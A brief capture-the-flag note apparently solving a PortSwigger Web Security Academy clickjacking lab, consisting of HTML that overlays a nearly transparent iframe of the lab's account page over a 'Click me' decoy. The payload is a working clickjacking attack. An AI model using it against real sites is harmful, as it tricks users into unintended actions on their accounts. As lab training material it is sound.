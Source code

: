 #ctf 

https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected

```html
<style> 
  iframe { 
    position: relative; 
    width: 500px; 
    height: 700px; 
    opacity: 0.0001; 
    z-index: 2; 
  } 
  div { 
    position: absolute; 
    top: 300px; 
    left: 60px; 
    z-index: 1; 
  } 
</style>
<div>Click me</div>
<iframe src="0ac200d604cfb7b6827babbf00490074.web-security-academy.net/my-account"></iframe>
```
